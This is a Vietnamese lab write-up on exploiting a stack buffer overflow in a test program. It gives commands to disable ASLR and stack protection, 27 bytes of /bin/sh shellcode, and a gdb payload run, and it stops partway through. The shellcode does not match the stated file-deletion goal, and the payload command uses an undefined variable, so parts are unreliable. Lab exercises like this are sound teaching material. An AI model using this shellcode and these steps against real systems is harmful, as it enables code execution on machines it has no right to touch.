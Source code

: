 ![image](https://github.com/user-attachments/assets/4173c889-4857-4d8c-91bb-6aae88427f83)### Chi tiết injection code để delete file dummyfile
***
#### Điểm qua file vuln.c và file_del.asm  

![image](https://github.com/user-attachments/assets/c6588ec0-9d20-42d3-b849-0df865aa5a24)

![image](https://github.com/user-attachments/assets/5859be38-860d-4e39-8bfe-3975f152106f)

***
#### Các bước thực hiện
* Bước 1: ánh xạ file vào máy ảo docker
  ```
  docker run -it --privileged -v "C:/Users/Win 10/Seclabs:/home/seed/seclabs" img4lab
  ```
* Bước 2: tắt cơ chế bảo mật để có thể injection code
  ```
  sudo ln -sf /bin/zsh /bin/sh
  ```
* Bước 3: tắt cơ chế cấp phát địa chỉ ngẫu nhiên
  ```
  sudo sysctl -w kernel.randomize_va_space=0
  ```
* Bước 4:

  biên dịch file file_del.asm
  ```
  nasm -g -f elf file_del.asm
  ```
  liên kết file
  ```
  ld -m elf_i386 -o file_del file_del.o
  ```
* Bước 5: Xem file sh.asm có tổng cộng bao nhiêu bytes
  ```
  for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
  ```
  ![image](https://github.com/user-attachments/assets/95321099-960b-442c-a7d9-c82319c843eb)


  => 27 bytes
  ```
  \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80
  ```
* Bước 6: biên dịch file vuln.c
  ```
  gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
  ```
* Bước 7: tạo một file mới tên là dummyfile
  ![image](https://github.com/user-attachments/assets/0c74e8ce-e0b8-4068-b22c-e789b8058622)
* Bước 8: điểm qua stack frame của hàm main
  ![image](https://github.com/user-attachments/assets/b9aedf21-753b-4e90-a84a-0e3586573bdf)

  ta sẽ phải tràn code từ buf xuống return address và thay giá trị return address

  ta đã có 27 bytes của shellcode vào biến buf vậy chỉ cần thêm 37 bytes ngẫu nhiên sẽ tràn hết buf + thêm 4 bytes tràn xuống ebp là sẽ tới được return address
* Bước 9: gdb để chạy và xem chương trình
  ```
  gdb -q vuln.out
  ```
  ![image](https://github.com/user-attachments/assets/8f00e862-eafe-482d-899e-d2ac2767c489)

  Đặt 2 breakpoints: 1 khi stackframe được thiết lập tại 0x08048441. 2 tại 0x0804846b
  ![image](https://github.com/user-attachments/assets/72710aab-a204-40eb-aa29-9ce1dc499b2b)


  Chạy chương trình:
  ```
  r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80'+'41'*a+'\xff\xff\xff\xff')")
  ```
  Tại breakpoint thứ nhất xem stack từ esp `x/80xb $esp`
  ![image](https://github.com/user-attachments/assets/00e71721-7c68-45a3-9ce0-6499e37f0ae0)


  Tại breakpoint thứ 2:
  

